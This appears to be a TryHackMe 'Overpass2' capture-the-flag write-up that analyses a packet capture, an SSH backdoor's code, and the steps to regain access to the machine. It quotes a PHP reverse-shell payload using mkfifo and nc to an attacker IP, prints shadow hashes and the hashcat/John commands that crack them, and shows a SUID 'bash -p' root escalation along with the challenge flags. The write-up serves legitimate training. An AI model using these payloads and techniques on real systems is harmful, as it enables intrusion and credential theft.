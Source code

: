 ```
Target Name: Overpass2
```

```
Task 1: Forensics - Analyse the PCAP
```

```
Task 1.1: What was the URL of the page they used to upload a reverse shell? => /development/
```
1. To solve this lets download the pcap file and investigate the packets captured by the team.
2. On investigating a GET request we can see that a /development/ hosts a upload form where a file could be uploaded.
3. There is a POST request to /development/upload.php where we can see that a shell file was uploaded with the name payload.php.

```
Task 1.2: What payload did the attacker use to gain access? => <?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>
```
1. So it is easy check the POST request going to /development/upload.php.
2. Richt click on the POST request log and select follow => HTTP Stream.
3. The payload is mentioned there as value to the *Payload.php*

```
Task 1.3: What password did the attacker use to privesc? => whenevernoteartinstant
```
1. Further investigating the tcp packets by using follow => TCP Stream we come to know that attacker executed a *ls -al* command and found a file with name *.overpass* in `/var/www/html/development/uploads`
2. Next the attacker accessed the file using cat command and the file carried password for the user james.
3. The password was *whenevernoteartinstant*
4. Next using the password the attacker executed a command *sudo -l*

```
Task 1.4: How did the attacker establish persistence? => https://github.com/NinjaJc01/ssh-backdoor
```
1. Still following the TCP packets we came across that user executed a cat command on */etc/shadow*
2. The attacker found follwoing users passwords for which could be Brute Forced.
```
james:$6$7GS5e.yv$HqIH5MthpGWpczr3MnwDHlED8gbVSHt7ma8yxzBM8LuBReDV5e1Pu/VuRskugt1Ckul/SKGX.5PyMpzAYo3Cg/:18464:0:99999:7:::
paradox:$6$oRXQu43X$WaAj3Z/4sEPV1mJdHsyJkIZm1rjjnNxrY5c8GElJIjG7u36xSgMGwKA2woDIFudtyqY37YCyukiHJPhi4IU7H0:18464:0:99999:7:::
szymex:$6$B.EnuXiO$f/u00HosZIO3UQCEJplazoQtH8WJjSX/ooBjwmYfEOTcqCAlMjeFIgYWqR5Aj2vsfRyf6x1wXxKitcPUjcXlX/:18464:0:99999:7:::
bee:$6$.SqHrp6z$B4rWPi0Hkj0gbQMFujz1KHVs9VrSFu7AU9CxWrZV7GzH05tYPL1xRzUJlFHbyp0K9TAeY1M6niFseB9VLBWSo0:18464:0:99999:7:::
muirland:$6$SWybS8o2$9diveQinxy8PJQnGQQWbTNKeb2AiSp.i8KznuAjYbqI3q04Rf5hjHPer3weiC.2MrOj2o1Sw/fd2cu0kC6dUP.:18464:0:99999:7:::
``` 
3. Next the attacker executed *git clone https://github.com/NinjaJc01/ssh-backdoor* to establish persistence

```
Task 1.5: Using the fasttrack wordlist, how many of the system passwords were crackable? =>
```

1. To do this lets download the fasttrack wordlist from `https://raw.githubusercontent.com/drtychai/wordlists/master/fasttrack.txt`
2. Next we will save the users hash found in `/etc/shadow` file and use John the ripper to get plain text password of the users.
3. The passwords were easy to crack and we could crack *4* out of *5* users passwords.
```
Using default input encoding: UTF-8
Loaded 5 password hashes with 5 different salts (sha512crypt, crypt(3) $6$ [SHA512 128/128 ASIMD 2x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
secuirty3        (paradox)
secret12         (bee)
abcd123          (szymex)
1qaz2wsx         (muirland)
4g 0:00:00:00 DONE (2021-12-21 00:12) 4.444g/s 246.6p/s 1128c/s 1128C/s admin..starwars
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

```
Task 2:  Research - Analyse the code
```

```
Task 2.1: What's the default hash for the backdoor? => bdd04d9bb7621687f5df9001f5098eb22bf19eac4c2c30b6f23efed4d24807277d0f8bfccb9e77659103d78c56e66d2d7d8391dfc885d0e9b68acd01fc2170e3
```
1. check the main.go file from the ss-backdoor git repo we downloaded eariler the hash is mentioned in it.

```
Task 2.2: What's the hardcoded salt for the backdoor? => 1c362db832f3f864c8c2fe05f2002a05
```
1. In the ssh-bakdoor repo the main.go file holds the salt, it can be found defined in *passwordHandler* function.

```
Task 2.3: What was the hash that the attacker used? - go back to the PCAP for this! => 6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed
```
1. Repoen the pcapng file with wireshark and lets start looking at the TCP Stream again.
2. The attacker has cloned the ssh-backdoor repo and generated a new ssh key pair using *ssh-gen* command.
3. Next the attacker has provided executing permission to the backdoor script using chmod +x backdoor.
4. Now the attacker execute's `./backdoor -a 6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed` to get a persistance connection on port 2222 via ssh.

```
Task 2.4: Crack the hash using rockyou and a cracking tool of your choice. What's the password? => november16
```
1. For this we will be using hachcat but first we need to understand the type of hash we are dealing with.
2. So going back to the main.go file I we can see that a SHA512 hash is generated using a salt value *Check below code the hashPassword function returns hash value that is sha512*
```
func hashPassword(password string, salt string) string {
	hash := sha512.Sum512([]byte(password + salt))
	return fmt.Sprintf("%x", hash)
```
3. So lets navigate to `https://hashcat.net/wiki/doku.php?id=example_hashes` and check what mode we can use to crack the sha512 hash that has a salt value as well.
4. So we conclude we will be using mode 1710 as it best fits our requirments `1710 	sha512($pass.$salt) 	e5c3ede3e49fb86592fb03f471c35ba13e8d89b8ab65142c9a8fdafb635fa2223c24e5558fd9313e8995019dcbec1fb584146b7bb12685c7765fc8c0d51379fd:6352283260`
5. lets save the hash and salt in a file called hash and pass it to the hashcat file to crat it.
6. The formate of hash and salt should be hash:salt in the file the *:* being the seprator between both the vaules, following being the final formate
`6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed:1c362db832f3f864c8c2fe05f2002a05`
7. Fire this commnad and wait for hashcat to crack the hash `hashcat -m 1710 hash /usr/share/wordlists/rockyou.txt --force`
8. Hashcat gives us the password `6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed:1c362db832f3f864c8c2fe05f2002a05:november16` where `november16` being the password. So now we have the password of the attacker.

```
Task 3: Attack - Get back in!
```

```
Task 3.1: The attacker defaced the website. What message did they leave as a heading? => H4ck3d by CooctusClan
```
1. Deploy the machine and navigate the website.
2. We see a message saying *H4ck3d by CooctusClan*

```
Task 3.2: Using the information you've found previously, hack your way back in!
```
1. So we know the password used by the attacker *november16* we know the username *james* and we know the attacker is using port *2222* as SSH service as the ssh-backdoor tool uses that port.
2. So lets connect to the server via ssh -p 2222 james@<ip address> pass the password and we are in.

```
Task 3.3: What's the user flag? => thm{d119b4fa8c497ddb0525f7ad200e6567}
```
1. As we have a ssh connection to the server lets navigate to */home/james* and execute ls -al
2. We have the user.txt file in the directory lets cat it and get the flag.

```
Task 3.4: What's the root flag? => thm{d53b2684f169360bb9606c333873144d}
```
1. We currently are not root we will need to enumerate more to esclate to root priveleges.
2. Notice under */home/james* there is a file named `.suid_bash` it is show that it is owned by *root* and we can execute it as we have the right permissions to do so `-rwsr-sr-x`
3. On further investigating the binary we come to know that it is a file that can run bash as *root* user it is in genral a suid misconfiguration where a normal user can execute the binary with root priveleges in our case it gives us access to bash as root user.
4. So if you just excute the `.suid_bash` file you will have bash shell but not as a root user.
5. The gtfo bins have a great way to exploit it and escalte our shell to *root* check `https://gtfobins.github.io/gtfobins/bash/` all we need to do is execute the `suid_bash` with a -p and get root shell.
6. So lets execute ./suid_bash -p and bingo we have root navigate to /root and cat root.txt to grab the root flag and complete the challange.
